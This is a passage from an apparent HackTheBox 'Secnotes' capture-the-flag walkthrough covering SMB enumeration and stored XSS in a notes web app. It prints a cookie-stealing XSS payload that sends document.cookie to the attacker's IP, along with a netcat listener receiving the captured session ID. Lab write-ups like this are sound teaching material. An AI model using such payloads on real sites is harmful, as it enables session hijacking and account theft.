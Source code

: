 ```
┌──(mark__haxor)-[~/Desktop/B2B/HTB/Secnotes]
└─$ smbclient -L 10.10.10.97                                   
Password for [WORKGROUP\mark]:
session setup failed: NT_STATUS_ACCESS_DENIED
```

Lets move on to the web server on port 80
![image](https://user-images.githubusercontent.com/113513376/215294609-6a565c38-43d7-4072-b56e-becae59392c4.png)

Gives a login page and a register function 

I'll register and login to see what i can do
![image](https://user-images.githubusercontent.com/113513376/215294647-89d5b38f-0e33-41fe-abe6-dbbc06d47528.png)

Now i'll login using `hacker:hacker`
![image](https://user-images.githubusercontent.com/113513376/215294667-08711860-5fd3-48e1-b1c4-a3386a02fbcf.png)

We see an email lets save it for maybe future use

```
Email: tyler@secnotes.htb
```

I'll try creating a note and injecting html tags
![image](https://user-images.githubusercontent.com/113513376/215294730-f394997e-7c91-4097-a2f5-be7b83d22728.png)

Well it worked
![image](https://user-images.githubusercontent.com/113513376/215294746-7706eb10-cf5b-4315-8a22-a630c618fa87.png)

I'll confirm using this payload 

```
Payload: <img src=x onerror=this.src='http://10.10.16.7/?'+document.cookie;>
```

And back on the netcat listener we see a http request

```
┌──(mark__haxor)-[~/Desktop/B2B/HTB/Secnotes]
└─$ nc -lvnp 80      
listening on [any] 80 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.16.7] 33290
GET /?PHPSESSID=9dmr8dhm51q95gju254htu5g3c HTTP/1.1
Host: 10.10.16.7
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://10.10.10.97/
```

So that works. Lets check out other functions as we can't leverage this vulnerability yet

We have a password reset option
![image](https://user-images.githubusercontent.com/113513376/215295115-86167caf-f472-4ca4-910f-485d4408147a.png)
